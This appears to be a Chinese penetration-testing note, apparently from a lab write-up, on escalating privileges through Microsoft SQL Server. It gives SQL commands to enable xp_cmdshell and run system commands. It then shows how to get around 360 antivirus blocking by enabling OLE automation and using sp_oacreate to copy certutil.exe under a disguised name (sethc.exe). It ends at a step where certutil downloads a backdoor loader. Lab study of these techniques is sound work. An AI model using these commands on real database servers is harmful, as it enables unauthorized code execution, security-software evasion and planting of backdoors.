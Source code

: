 ## MSSQL提权

1、开启 xp_cmdshell

（注：xp_cmdshell 默认在 mssql2000 中是开启的，在 mssql2005 之后的版本中默认禁止，如果用户拥有管理员 sa 权限可以用 sp_configure 重新开启

```
#启用xp_cmdshell
EXEC sp_configure 'show advanced options',1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',1;
RECONFIGURE;

#关闭xp_cmdshell
EXEC sp_configure 'show advanced options',1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',0;
RECONFIGURE;

#恢复/删除xp_cmdshell
EXEC sp_addextendedproc xp_cmdshell,@dllname='xplog70.dll';
EXEC sp_dropextendedproc 'xplog70.dll';
```

2、运行命令

```sql
EXEC master..xp_cmdshell 'ipconfig';
```

失败了，360卫士拦截了命令执行

3、绕过360卫士拦截

[渗透测试带防御的内网域（ack123靶场） - beiwo - 博客园 (cnblogs.com)](https://www.cnblogs.com/wkzb/archive/2021/12/20/15667624.html)

[记一次利用mssql上线 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/9265)

- 开启 sp_oacreate

```sql
exec sp_configure 'show advanced options', 1;  RECONFIGURE;  exec sp_configure 'Ole Automation Procedures', 1; 
```

```sql
 RECONFIGURE;
```

- 利用 sp_oacreate 构造语句将 certutil.exe 复制到 C:\Windows\Temp\ 下，并重命名为 sethc.exe

```sql
declare @o int exec sp_oacreate 'scripting.filesystemobject', @o out exec sp_oamethod @o, 'copyfile',null,'C:\Windows\System32\certutil.exe' ,'c:\windows\temp\sethc.exe';
```

- certutil 工具远程下载后门文件 loader.exe（360依然拦截）

